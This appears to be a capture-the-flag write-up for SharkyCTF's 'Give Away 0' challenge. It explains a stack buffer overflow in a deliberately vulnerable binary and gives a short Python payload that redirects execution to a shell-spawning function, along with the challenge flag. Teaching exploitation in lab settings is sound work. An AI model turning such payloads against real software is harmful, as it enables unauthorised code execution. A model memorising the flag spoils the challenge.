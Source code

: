 # Give Away 0

> Home sweet home.
>
> nc sharkyctf.xyz 20333


## Description

For this challenge we are given a binary file. Let's dissassemble it with [Ghidra](https://ghidra-sre.org/). 

The `main` function is the following:

```c
undefined8 main(void)
{
  init_buffering();
  vuln();
  return 0;
}
```

Let's have a look at `vuln`. 

```c
void vuln(void)
{
  char local_28 [32];
  
  fgets(local_28,0x32,stdin);
  return;
}
```

This is a straightforward buffer overflow: we have a buffer with size 32, and we can input 0x32 characters. Therefore we can overflow the buffer to execute another piece of code. By analysing the binary with Ghidra, we also remark that there is a `win_func` function, which spawns a shell.

```c 
void win_func(void)
{
  execve("/bin/sh",(char **)0x0,(char **)0x0);
  return;
}
```

The objective is to overflow the buffer to reach this function.

## Solution

### Theory

Let's recall how a program works. There are different memory regions:
- the stack: this is where local variables and other runtime information go
- the heap: this is where memory is dynamically allocated (with malloc, ...)
- data: this is where global variables are
- text: this is where the executable machine code is.

There are also registers which are used to store information close to the CPU (where computations are performed). Some special registers:
- `esp`: current top of stack
- `ebp`: current bottom of stack
- `eip`: current instruction.

For instance, let's debug our program with gdb. We look at the assembly code of `main`.

![](../images/give_away_01.png)

At `main+19` there is the call to `vuln` function. At this point, `eip` is `0x4006fa`. When `callq vuln` is executed, the instruction pointer `eip` will jump to the address of `vuln`, in this case `0x4006c4`. However, when `vuln` has been executed, the program needs to know that it needs to return to `main`, and specifically to the next instruction (at address `0x4006ff`). Therefore this address is pushed on the stack.

Now when the program enters `vuln`:

![](../images/give_away_02.png)

You see the first two instructions `push %rbp; mov %rsp,%rbp`. They are used to create a new stack frame: the old bottom of stack is pushed on the stack, so we can remember it, and now the current top of stack becomes the bottom of the stack. Those operations are reversed with `leaveq` at the end of the function.

Next instruction `sub $0x20,%rsp` creates our array on the stack: it increases the stack size of 0x20=32 bytes. The next five instructions are used to call `fgets` with the correct parameters.

At this point, our stack looks like this:

![](../images/stackbuffer.png)

Recall that calling the function pushed on the stack the return address (next `eip`), the old `ebp`. Then our buffer was allocated on the stack. However, as said earlier, we can overflow it: if we enter more characters than its actual size, we will end up overwriting the old `ebp` and the return address. This is exactly what we want to do: we will overwrite the return address and replace it with the address of `win_func`.

### Attack

Using `file`, we see we have a 64 bits program. Therefore `ebp` and the return address are coded on 64 bits. Let's verify locally if our exploit works.

First let's create a simple payload:

```python
payload = b'A'*32 + b'11112222333344445555'
with open("out", "wb") as f:
    f.write(payload)
```

We fill the buffer with A, then add some characters that we can recognize easily. We run our program in gdb with this input (using `r < out` in gdb). We also put a breakpoint after the call to fgets (`b * vuln+32`).

![](../images/give_away_03.png)

This is the stack seen in gdb. So let's replace the return address with the address of `win_func` (we can find it with `print win_func` in gdb).

```python
payload = b'A'*32 + b'11112222' + b'\xa7\x06\x40\x00\x00\x00\x00\x00'
with open("out", "wb") as f:
    f.write(payload)
```

Finally we launch our exploit.

![](../images/give_away_04.png)

Flag: `shkCTF{#Fr33_fL4g!!_<3}`